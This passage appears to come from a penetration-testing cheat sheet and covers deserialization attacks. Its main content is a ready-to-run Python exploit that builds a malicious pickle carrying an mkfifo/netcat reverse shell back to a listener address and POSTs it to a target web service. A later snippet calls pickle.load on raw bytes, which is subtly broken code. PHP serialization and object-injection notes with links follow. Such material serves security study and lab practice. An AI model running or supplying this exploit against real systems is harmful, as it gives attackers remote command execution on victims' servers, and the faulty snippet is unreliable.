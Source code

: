 ```python
        b.append(x[0] * x[1])

    print("".join(b))
```

```python
import cPickle, requests, base64

LHOST = '10.10.14.14'
LPORT = '31337'
RHOST = '10.10.10.91'
RPORT = '5000'


class Payload(object):
	def __init__(self, cmd):
		self.cmd = cmd
	def __reduce__(self):
		import os
		return (os.system, (self.cmd,))


reverse_sh = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f" % (LHOST, LPORT)
evilpickle = cPickle.dumps(Payload(reverse_sh))

r = requests.post('http://%s:%s/newpost' % (RHOST, RPORT), data=base64.urlsafe_b64encode(evilpickle))
print('POST {} {}'.format(r.status_code, r.url))
```

Pickle to object:

```python
import pickle
import base64 
pickled = base64.b64decode("Value")
pickle.load(pickled)
```

## PHP

- Extensions: `.php .php3 .php4 .php5 .php7 .phps .phtml .inc .phar`

### Cheatsheets

- <https://www.logicbig.com/tutorials/misc/php/php-advance-cheat-sheet.html>
- <http://overapi.com/php>
- <https://courses.cs.washington.edu/courses/cse154/18au/resources/cheatsheets/php-cheatsheet.pdf>
- Type Juggling, Math issues, Strcmp issues: <http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html>
- Serialized data: `O:len(class_name):"class_name":len(properties_to_edit):{s:len(variable_name):"variable_name";s:len(variable_value):"variable_value";}`
  - <https://securitycafe.ro/2015/01/05/understanding-php-object-injection/>
### References

